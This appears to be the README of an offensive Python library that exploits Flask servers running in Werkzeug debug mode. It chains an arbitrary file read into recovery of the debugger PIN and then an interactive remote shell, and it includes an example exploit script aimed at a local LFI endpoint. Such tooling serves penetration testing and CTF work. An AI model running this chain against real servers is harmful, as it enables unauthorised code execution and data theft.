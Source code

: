 <h1 align="center">Welcome to WConsole Extractor 👋</h1>
<p align="center">
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.0-blue.svg?cacheSeconds=2592000" />
  <a href="https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE" target="_blank">
    <img alt="License: MIT" src="https://img.shields.io/badge/License-MIT-yellow.svg" />
  </a>
  <a href="https://twitter.com/Ruulian_" target="_blank">
    <img alt="Twitter: Ruulian_" src="https://img.shields.io/twitter/follow/Ruulian_.svg?style=social" />
  </a>
</p>

> Wconsole Extractor is a library which allows to automatically exploit a flask debug mode server. You just need to write a file leak function, pass it to the class ``WConsoleExtractor`` constructor and you can access to all the elements related to the debug mode. Moreover, you can call the `shell` function to obtain an interactive shell.

## ✨ Demo

![example_gif](.github/example.gif)

## 🔨 Install

### From PyPi

**Global installation**:

```sh
pip3 install wconsole-extractor
```

**Python virtual environment**:

```sh
python3 -m venv env
source env/bin/activate
pip3 install wconsole-extractor

# Deactivate environment
deactivate
```

### Installation from repository

**Global installation**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
pip3 install .
```

**Python virtual environment**:

```sh
git clone https://github.com/Ruulian/wconsole_extractor.git
cd wconsole_extractor
python3 -m venv env
source env/bin/activate
pip3 install .

# Deactivate environment
deactivate
```

## 📚 Documentation

**Note**: The target operating system must be a Linux distribution.

### Prerequisites

In order to use correctly the library, you need to have an arbitrary file read on the target and implement it in python.

You must write a function that takes a filename as parameter and returns the content of the file on the target. If the file is not found, the function should return an **empty string**.

### Available attributes

From `WconsoleExtractor` instance, you can access mutiple attributes:

```py
# Target information
extractor.target               # Specified target
extractor.base_url             # Target base url
extractor.hostname             # hostname

# Versions
extractor.python_version       # Python version
extractor.werkzeug_version     # Werkzeug version

# Probably public bits
extractor.username             # User who launched the application
extractor.flask_path           # Flask installation path
extractor.modname              # Constant "flask.app"
extractor.class_name           # Constant "Flask"
extractor.probably_public_bits # Probably public bits [username, modname, class_name, flask_path]

# Private bits
extractor.machine_id           # Machine id
extractor.uuidnode             # MAC address in decimal
extractor.private_bits         # private bits

# Post process information
extractor.pin_code             # Werkzeug PIN CODE
extractor.token                # Werkzeug console token (available in HTML source code)

# Functions
extractor.shell()              # Get interactive shell
```

### Example

```py
from wconsole_extractor import WConsoleExtractor, info
import requests

def leak_function(filename) -> str:
    r = requests.get(f"http://localhost:5000/lfi?path={filename}")
    if r.status_code == 200:
        return r.text
    else:
        return ""

extractor = WConsoleExtractor(
    target="http://localhost:5000",
    leak_function=leak_function
)


info(f"PIN CODE: {extractor.pin_code}")
extractor.shell()
```

## Author

👤 **Ruulian**

* Website: https://ruulian.me
* Twitter: [@Ruulian_](https://twitter.com/Ruulian_)

## 🤝 Contributing

Contributions, issues and feature requests are welcome!<br />Feel free to check [issues page](https://github.com/Ruulian/wconsole_extractor/issues). 

## Show your support

Give a ⭐️ if this project helped you!

## 📝 License

This project is [MIT](https://github.com/Ruulian/wconsole_extractor/blob/main/LICENSE) licensed.

***
_This README was generated with ❤️ by [readme-md-generator](https://github.com/kefranabg/readme-md-generator)_